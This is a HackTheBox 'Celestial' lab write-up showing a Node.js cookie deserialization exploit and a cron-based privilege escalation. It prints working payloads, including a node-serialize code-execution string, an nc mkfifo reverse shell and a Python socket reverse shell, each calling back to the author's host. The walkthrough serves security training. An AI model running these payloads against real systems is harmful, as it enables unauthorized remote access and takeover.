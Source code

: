 ```yaml
---
title: "HackTheBox - Celestial"
author: Nasrallah
description: ""
date: 2023-05-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, nodejs, cronjob, python, deserialization]
img_path: /assets/img/hackthebox/machines/celestial
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Celestial](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). We exploit a deserialization vulnerability in a node.js website and get foothold. For root we find a cronjob running a python script that we can write to, so we add a python reverse shell and get root privileges.

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.85
Host is up (1.1s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

```

There is a web server on port 3000 running node.js.

### Web

Let's check the web server.

![](1.png)

It gave us 404, refreshing the page gives something different.

![](2.png)

The reason for that is that we got a cookie from the website.

![](3.png)

The cookie looks base64 encoded, let's try to decode it.

```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

We can see different key/value pairs, two of them get returned to us: `username` and `num`.

## **Foothold**

Since this is `Node.js`, let's see if it's vulnerable to Deserialization attack

I found the following payload in [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md)

```js
_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.10.17.90', function(error,stdout, stderr) { console.log(stdout) });}()
```

We replace `dummy` with the code above:

```json
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 5 10.10.17.90', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

And base64 encode the payload.

```terminal
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIC1jIDUgMTAuMTAuMTcuOTAnLCBmdW5jdGlvbihlcnJvcixzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSIsImNvdW50cnkiOiJJZGsgUHJvYmFibHkgU29tZXdoZXJlIER1bWIiLCJjaXR5IjoiTGFtZXRvd24iLCJudW0iOiIyIn0=
```

I tried multiple command like `id` and `uname` but didn't get anything back, so I edited the command to `ping` to see if it get's executed and we don't get a reply.

![](4.png)

We received the ICMP packets, which means the target reach us.

Now let's replace the `ping -c 10.10.10.10` command with a reverse shell. I used `nc mkfifo`.

```json
{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 9000 >/tmp/f', function(error,stdout, stderr) { console.log(stdout) });}()","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Encode the payload, setup a listener and send the request.

![](5.png)

We got a shell as `sun`, let's upgrade to a fully tty shell using python.

```terminal
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sun@celestial:~/.ssh$ export TERM=xterm
export TERM=xterm
sun@celestial:~/.ssh$ ^Z
zsh: suspended  nc -lvnp 9000
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/www]
└──╼ $ stty raw -echo; fg                                                                                                                           148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 9000

sun@celestial:~/.ssh$ 

```

## **Privilege Escalation**

Running `pspy64` we see a cronjob executing a python script

![](6.png)

The script is owned by `sun` so we can edit it as we like.

We add the following script to the file and wait for a reverse shell.

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.90",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](7.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).